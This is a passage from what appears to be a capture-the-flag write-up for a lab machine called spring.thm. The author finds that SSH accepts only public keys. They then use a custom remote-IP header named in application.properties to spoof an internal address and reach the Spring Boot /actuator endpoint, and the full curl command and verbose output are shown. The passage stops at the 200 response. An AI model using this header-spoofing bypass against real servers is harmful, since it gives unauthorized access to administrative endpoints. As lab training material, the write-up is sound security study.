 We have 2 possible passwords, maybe we can login to ssh as johnsmith using them;

```
ssh johnsmith@spring.thm
```

```
johnsmith@spring.thm: Permission denied (publickey).
```

Seems server only accepting logins with publickey. Let's focus more on `application.properties` especially this line;

```
server.tomcat.remoteip.remote-ip-header=x-9ad42dea0356cb04
```

A quick googling show, this this is replacing [`X-Forwarded-For`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) header name with `x-9ad42dea0356cb04`. So sending requests with `x-9ad42dea0356cb04` header we can change the IP address server thinks the request is coming from.

Let's try it;

{% code overflow="wrap" %}
```bash
curl -k https://spring.thm/actuator -H "x-9ad42dea0356cb04: 172.16.0.10" -v                  ✭master 
*   Trying 10.10.225.38:443...
* Connected to spring.thm (10.10.225.38) port 443
* ALPN: curl offers h2,http/1.1
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN: server did not agree on a protocol. Uses default.
* Server certificate:
*  subject: C=Unknown; ST=Unknown; L=Unknown; O=spring.thm; OU=Unknown; CN=John Smith
*  start date: Jul  4 15:33:44 2020 GMT
*  expire date: Apr 18 15:33:44 2294 GMT
*  issuer: C=Unknown; ST=Unknown; L=Unknown; O=spring.thm; OU=Unknown; CN=John Smith
*  SSL certificate verify result: self-signed certificate (18), continuing anyway.
* using HTTP/1.x
> GET /actuator HTTP/1.1
> Host: spring.thm
> User-Agent: curl/8.3.0
> Accept: */*
> x-9ad42dea0356cb04: 172.16.0.10
> 
< HTTP/1.1 200 
< Cache-Control: private
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Strict-Transport-Security: max-age=31536000 ; includeSubDomains
< X-Frame-Options: DENY
< Content-Type: application/vnd.spring-boot.actuator.v3+json
< Transfer-Encoding: chunked
< Date: Fri, 24 Nov 2023 20:17:05 GMT
< 
* Connection #0 to host spring.thm left intact
```
